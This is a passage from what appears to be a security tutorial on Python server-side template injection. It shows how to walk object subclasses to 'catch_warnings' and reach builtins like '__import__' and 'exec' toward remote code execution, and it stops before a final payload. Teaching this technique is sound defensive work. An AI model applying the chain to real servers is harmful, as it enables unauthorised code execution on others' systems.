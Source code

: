 Now, let us look for useful classes that can facilitate remote code execution.

Code: python

```python
>>> x = s.__class__.mro()[1].__subclasses__()
>>> for i in range(len(x)):print(i, x[i].__name__)
...
0 type
1 weakref
2 weakcallableproxy
3 weakproxy
4 int
5 bytearray
6 bytes
7 list
8 NoneType
<SNIP>

>>> def searchfunc(name):
...     x = s.__class__.mro()[1].__subclasses__()
...     for i in range(len(x)):
...             fn = x[i].__name__
...             if fn.find(name) > -1:
...                     print(i, fn)
...
>>> searchfunc('warning')

215 catch_warnings
```

Why are we searching for `warning` you may ask. We chose this class because it imports Python's [sys module](https://github.com/python/cpython/blob/3.9/Lib/warnings.py#L3) , and from `sys`, the `os` module can be reached. More precisely, os modules are all from `warnings.catch_`.

Please note that you will probably come across a different number. Back to our Python for SSTI specifics, we have seen that `catch_warnings` is present without importing any additional module to our Python console. Let's enumerate the builtins from this class as follows.

```python
>>> y = x[215]
>>> y

<class 'warnings.catch_warnings'>


>>> y()._module.__builtins__

{'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>,
 <SNIP>


>>> z = y()._module.__builtins__
>>> for i in z:
...     if i.find('import') >-1:
...             print(i, z[i])
```